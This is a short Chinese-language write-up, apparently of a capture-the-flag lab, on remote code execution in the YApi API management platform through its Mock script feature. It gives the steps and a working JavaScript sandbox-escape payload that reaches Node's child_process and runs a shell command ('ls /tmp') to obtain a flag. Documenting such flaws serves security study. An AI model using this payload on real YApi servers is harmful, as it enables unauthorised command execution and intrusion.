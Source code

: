 # yapi代码执行
## 漏洞描述
YAPI接口管理平台是国内某旅行网站的大前端技术中心开源项目，使用mock数据/脚本作为中间交互层，为前端后台开发与测试人员提供更优雅的接口管理服务，该系统被国内较多知名互联网企业所采用。YApi 是高效、易用、功能强大的 api 管理平台。但因为大量用户使用 YAPI的默认配置并允许从外部网络访问 YApi服务，导致攻击者注册用户后，即可通过 Mock功能远程执行任意代

## 影响版本
未知

## 利用流程
1.访问地址：118.193.36.37:39888     注册一个新用户

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/1.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/2.jpg)
2.添加项目 -> 项目名字(随意) ->  创建项目 -> 高级Mock -> 开启 -> Mock脚本
```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("ls /tmp").toString()
```

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/4.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/5.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/6.jpg)
4.预览 查看Mock地址 并访问

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/7.jpg)
5.得到flag

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/yapi%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/8.jpg)
